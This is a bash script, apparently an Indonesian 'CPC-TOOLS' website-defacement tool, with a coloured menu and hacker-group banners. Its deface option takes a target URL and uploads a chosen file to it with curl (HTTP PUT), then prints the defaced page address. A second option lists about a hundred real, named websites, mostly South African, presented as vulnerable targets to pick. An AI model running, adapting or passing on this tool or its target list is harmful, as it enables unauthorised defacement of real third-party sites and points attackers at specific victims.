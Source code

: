 # https-gihub.com-Cyberghostpirate-Deface-dirijekaja
blue='\033[34;1m' green='\033[32;1m' purple='\033[35;1m' cyan='\033[36;1m' red='\033[31;1m' white='\033[37;1m' yellow='\033[33;1m' clear echo echo echo $yellow"××××××××××××××××××××××××××××××××××××××××××××××××××××××××" echo $red"                  TUNGGU SAMPAI UPIN DAN IPIN LULUS SEKOLAH YAHHHH, MAKE TOOL INI DOSA TANGGUNG SENDIRI, KALO BISA:( " echo $yellow"××××××××××××××××××××××××××××××××××××××××××××××××××××××××" echo $purple"                         CPC-TOOLS" echo $green"                       Author : TAU AH SIAPA" echo $cyan"                contact : Cyberghostpirate@gmail.com" echo $yellow"××××××××××××××××××××××××××××××××××××××××××××××××××××××××" echo $purple"           thanks to : Mr.Ghost Includex &amp; Frezz" echo $yellow"××××××××××××××××××××××××××××××××××××××××××××××××××××××××" echo $green" [A].Deface" echo $green" [B].web vuln" echo $green" [C].penjelasan &amp; cara pakai" echo $red" [D].exit" echo $yellow"××××××××××××××××××××××××××××××××××××××××××××××××××××××××" echo $purple"MASUKAN PILIHAN ANDA" echo $red" " read -p " DRS@root# "  apaan  if [ $apaan = "A" ] || [ $apaan = "a" ] then clear echo $yellow"××××××××××××××××××××××××××××××××××××××××××××××××××××××××" echo $red"                   KURANG SENENG? CHAT!!!" echo $green"                    Author : MAMET" echo $yellow"××××××××××××××××××××××××××××××××××××××××××××××××××××××××" toilet -f standard  Deface Web echo echo $cyan" Masukan Web Target" echo $red" " read -p " DRS@root# "  target echo echo $cyan" Masukan Script Kamu" echo $red" " read -p " DRS@root# " script curl -T /storage/emulated/0/$script $target echo $green"Hasil deface =>$target/$script" echo echo $blue"Terimakasih Telah Menggunakan Jasa Kami" echo  echo $purple"Tekan Enter Untuk Kembali" read -p " " back sh deface.sh fi  if [ $apaan = "B" ] || [ $apaan = "b" ] then clear echo $yellow"××××××××××××××××××××××××××××××××××××××××××××××××××××××××" echo $red"                   OIIIII TAU AH SIAPA" echo $yellow"××××××××××××××××××××××××××××××××××××××××××××××××××××××××" echo $purple"                    KUMPULAN WEB VULN" echo $yellow"××××××××××××××××××××××××××××××××××××××××××××××××××××××××" echo echo $blue "SILAKAN PILIH SALAH SATU WEB VULN YANG KAMI SEDIAKAN:)" echo echo $cyan"http://bitsandpieces.co.za" echo $cyan"http://cblandscapes.co.za" echo $cyan"http://windmillsandporcupines.co.za" echo $cyan"http://scnc.co.za" echo $cyan"http://contsol.co.za" echo $cyan"http://consultec.co.za" echo $cyan"http://colourfactory.co.za" echo $cyan"http://ayk.co.za" echo $cyan"http://daretogowildafrica.co.za" echo $cyan"http://floralandfresh.co.za" echo $cyan"http://foodconsult.co.za" echo $cyan"http://itsengineering.co.za" echo $cyan"http://hybriddevelopments.co.za" echo $cyan"http://holotropicbreathwork.co.za" echo $cyan"http://hanover-cs.co.za" echo $cyan"http://handj.co.za" echo $cyan"http://lwrm.co.za" echo $cyan"http://lubbestrust.co.za" echo $cyan"http://lpenterprises.co.za" echo $cyan"http://kwalitycommodities.co.za" echo $cyan"http://mestern.co.za" echo $cyan"http://megro.co.za" echo $cyan"http://bitpc.co.za" echo $cyan"http://butterflowers.co.za" echo $cyan"http://beeit.co.za" echo $cyan"http://esfml.com" echo $cyan"http://bee-it.co.za" echo $cyan"http://mc3qs.com" echo $cyan"http://marjoriebresler.com" echo $cyan"http://naturaleyeimages.com" echo $cyan"http://my-resume.biz" echo $cyan"http://mpark.co.za" echo $cyan"http://montdestin.com" echo $cyan"http://africa-one.co.za" echo $cyan"http://ads247.co.za" echo $cyan"http://accelerate-kids.co.za" echo $cyan"http://8x8.co.za" echo $cyan"http://aaglcapetown2013.org.za" echo $cyan"http://allpaint.co.za" echo $cyan"http://andrewswebcorner.co.za" echo $cyan"http://applebyguesthouse.com" echo $cyan"http://atlanticphysio.co.za" echo $cyan"http://page31.co.za" echo $cyan"http://vaigaidigitals.com" echo $cyan"http://systemshouse.co.za" echo $cyan"http://www.studentsonline.co.za" echo $cyan"http://lucaniphysio.co.za" echo $cyan"http://www.onboardpublications.co.za" echo $cyan"http://www.oilandclay.co.za" echo $cyan"http://www.aquafitness.za.net" echo $cyan"http://www.helderbergit.co.za" echo $cyan"http://www.pipelinetape.co.za" echo $cyan"http://www.drcrsaexpress.co.za" echo $cyan"http://officeelf.co.za" echo $cyan"http://troop-1539.org" echo $cyan"http://happy.mikikk.co.jp" echo $cyan"http://www.alfunctiondesigns.co.za" echo $cyan"http://mix007.co.za" echo $cyan"http://spyroom.co.za" echo $cyan"http://sportspod.co.za" echo $cyan"http://southernafricablog.com" echo $cyan"http://stand66.com" echo $cyan"http://tapifare.com" echo $cyan"http://tankertech.co.za" echo $cyan"http://tcnig.co.za" echo $cyan"http://tcmgroup.co.za" echo $cyan"http://tressor.co.za" echo $cyan"http://trafficam.co.za" echo $cyan"http://tuthukani.co.za" echo $cyan"http://nyarhi.co.za" echo $cyan"http://digishop.co.za" echo $cyan"http://elinemsa.co.za" echo $cyan"http://disucctv.co.za" echo $cyan"http://www.cai.co.za" echo $cyan"http://tirupurjobs.net" echo $cyan"http://inlislitev3.perpusnas.go.id" echo $cyan"http://clcooling.co.za" echo $cyan"http://sublimeconfectionery.co.za" echo $cyan"http://gogreenplumbing.co.za" echo $cyan"http://golfbuzz.co.za" echo $cyan"http://grupo-cma.com" echo $cyan"http://inkspot.co.za" echo $cyan"http://kgarebana.co.za" echo $cyan"http://ittrader.co.za" echo $cyan"http://hellomobile.mobi" echo $cyan"http://homebuzz.co.za" echo $cyan"http://gordonhoward.co.za" echo $cyan"http://democonstruction.co.za" echo $cyan"http://chasingfantasia.co.za" echo $cyan"http://litehouse.co.za" echo $cyan"http://ldata.co.za" echo $cyan"http://lunique.co.za" echo $cyan"http://chillibitez.co.za" echo $cyan"http://cmweb.co.za" echo $cyan"http://essentialtours.com" echo $cyan"http://entitledvip.com" echo $cyan"http://frankadesign.com" echo $cyan"http://forget-me-not.co.za" echo $cyan"http://findpersonnel.co.za" echo $cyan"http://everythingdating.co.za" echo $purple"Sudah Memilih?" read -p " Sudah? (Y)" ya clear echo $purple"Tekan Enter Untuk Kembali" read -p " " back sh deface.sh fi   if [ $apaan = "C" ] || [ $apaan = "c" ] then clear echo $yellow"××××××××××××××××××××××××××××××××××××××××××××××××××××××××" echo $red"                 BANGKA BANGKE BELITUNG" echo $red"××××××××××××××××××××××××××××××××××××××××××××××××××××××××" echo $red"         UHHHHHHHHHHH" echo $red"××××××××××××××××××××××××××××××××××××××××××××××××××××××××" echo $white"MAMET DAN JAMET" echo $white"CYBERGHOSTPIRATE" echo $white" PANTEK" echo $purple"AKU TAKUT?" read -p " Sudah Paham? (Y) " ya clear echo $purple"Tekan Enter Untuk Kembali" read -p " " back sh deface.sh fi   if [ $apaan = "D" ] || [ $apaan = "d" ] then clear echo $yellow"××××××××××××××××××××××××××××××××××××××××××××××××××××××××" echo $red"Anda Yakin Ingin Keluar?" echo $yellow"××××××××××××××××××××××××××××××××××××××××××××××××××××××××" read -p "Ya? (Y)" ya clear echo $green"SAKITNYA HATIKU" echo $green"INI" $red"CINTAKU DIBAGI BAGI" $green"APAKAH KAMU GAK MIKIR" echo $blue" We Are CPC team" echo $blue"We Hacked Silently" echo $blue"We Move With One Command" echo $blue" Expect US ! " echo echo echo echo $purple"Tekan Enter Untuk Keluar" read -p " " enter clear exit fi
